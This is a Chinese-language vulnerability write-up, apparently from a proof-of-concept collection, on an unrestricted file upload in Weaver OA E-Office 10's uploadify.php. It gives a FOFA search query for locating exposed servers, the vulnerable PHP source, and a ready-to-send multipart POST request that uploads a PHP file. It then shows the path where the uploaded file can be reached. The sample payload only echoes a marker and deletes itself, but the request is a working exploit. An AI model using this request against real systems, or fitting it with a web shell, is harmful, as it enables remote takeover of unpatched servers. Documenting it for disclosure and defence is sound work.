 # 泛微OA E-Office uploadify 任意文件上传漏洞

# 泛微OA E-Office uploadify 任意文件上传漏洞

## 漏洞描述

泛微OA E-Office 在 uploadify.php 中上传文件过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限

## 漏洞影响

泛微OA E-Office10

## 网络测绘

```
app="泛微-EOffice"
```

## 漏洞复现

登录页面

![image-20220520134445854](/images/202205201344907.png)

```
<?php
include_once("inc/vulnerability.php");
if (!empty($_FILES)) {
    $tempFile = $_FILES['Filedata']['tmp_name'];
    //获取扩展名
    if (!strrpos($tempFile, ".")) {
        echo "";
        exit;
    }
    $fileExt = substr($tempFile, strrpos($tempFile, ".") + 1);
    $attachmentID = createFileDir();
    $uploadPath = $_REQUEST["uploadPath"];

    if (trim($uploadPath) == "") {
        $targetPath = $_SERVER['DOCUMENT_ROOT'] . '/attachment/' . $attachmentID;
    } else {
        $targetPath = $uploadPath . '/sent/attachment/' . $attachmentID;
    }

    if (!file_exists($targetPath)) {
        mkdir($targetPath, 0777, true);
    }

    $targetFile = str_replace('//', '/', $targetPath) . "/" . $_FILES['Filedata']['name'];
    isIllegalUploadFile($targetFile);
    move_uploaded_file($tempFile, iconv("UTF-8", "GBK", $targetFile));
    echo $attachmentID;
}

function createFileDir() {
    global $ATTACH_PATH;
    mt_srand((double) microtime() * 1000000);
    $RADOM_ID = mt_rand() + mt_rand();
    if (!file_exists($ATTACH_PATH . $RADOM_ID))
        return $RADOM_ID;
    else
        createFileDir();
}

?>
```

验证POC

```
POST /inc/jquery/uploadify/uploadify.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Connection: close
Content-Length: 259
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4
Accept-Encoding: gzip

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="2TrZmO0y0SU34qUcUGHA8EXiDgN.php"
Content-Type: image/jpeg

<?php echo "2TrZmO0y0SU34qUcUGHA8EXiDgN";unlink(__FILE__);?>

--e64bdf16c554bbc109cecef6451c26a4--
```

![image-20230828150715083](images/image-20230828150715083.png)

访问：

```
/attachment/3466744850/xxx.php
```


